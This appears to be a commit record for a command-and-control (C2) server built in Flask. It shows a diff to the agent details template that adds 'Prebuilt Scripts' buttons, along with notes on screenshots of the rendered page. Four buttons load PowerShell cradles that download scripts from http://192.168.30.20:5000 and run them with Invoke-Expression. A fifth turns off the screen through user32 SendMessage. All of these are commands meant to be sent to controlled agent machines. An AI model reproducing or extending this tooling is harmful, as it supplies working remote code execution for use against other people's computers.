

Before and after one commit to al1abb/C2, a Flask app: template server/templates/agent_details.html in a window 1280 px wide. Shown: the part 375-858 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
refactor: Added prebuilt scripts

```diff
--- a/server/templates/agent_details.html
+++ b/server/templates/agent_details.html
@@ -46,6 +46,52 @@
                 });
             }
         }
+
+    // Function to populate the command input field
+    function populateCommand(script) {
+        const commandInput = document.getElementById('commandInput');
+        commandInput.value = script;
+    }
+
+    // Function to dynamically create prebuilt script buttons
+    function createPrebuiltScriptButtons() {
+        const scripts = [
+            {
+                name: 'Test Script',
+                command: 'Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/scripts/script.ps1").Content) )'
+            },
+            {
+                name: 'Wallpaper Script',
+                command: 'Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/scripts/wallpaper.ps1").Content) )'
+            },
+            {
+                name: 'Talk',
+                command: 'Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/scripts/talk.ps1").Content) )'
+            },
+            {
+                name: 'Monkey',
+                command: 'Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.20:5000/static/scripts/monkey.ps1").Content) )'
+            },
+            {
+                name: 'Turn off screen',
+                command: "(Add-Type '[DllImport(\"user32.dll\")]public static extern int SendMessage(int hWnd, int hMsg, int wParam, int lParam);' -Name a -Pas)::SendMessage(-1,0x0112,0xF170,2)"
+            }
+            // Add more scripts here if needed
+        ];
+
+        const prebuiltScriptsContainer = document.getElementById('prebuiltScripts');
+
+        scripts.forEach(script => {
+            const button = document.createElement('button');
+            button.textContent = script.name;
+            button.className = 'px-4 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700 text-sm font-semibold';
+            button.onclick = () => populateCommand(script.command);
+            prebuiltScriptsContainer.appendChild(button);
+        });
+    }
+
+    // Initialize prebuilt script buttons on page load
+    document.addEventListener('DOMContentLoaded', createPrebuiltScriptButtons);
     </script>
 </head>
 <body class="bg-gray-900 text-gray-100">
@@ -110,6 +156,10 @@
                 <!-- Command Input Form -->
                 <div class="mt-6">
                     <h3 class="text-xl font-semibold text-white">Send Command</h3>
+                    <div class="mt-6">
+                        <h5 class="text-sm font-semibold text-white">Prebuilt Scripts</h5>
+                        <div id="prebuiltScripts" class="mt-4 flex flex-wrap gap-4"></div>
+                    </div>
                     <form id="commandForm" onsubmit="submitCommandForm(event)">
                         <div class="mt-4 flex items-center">
                             <label for="commandInput" class="text-sm text-gray-300 mr-4">Command:</label>
```
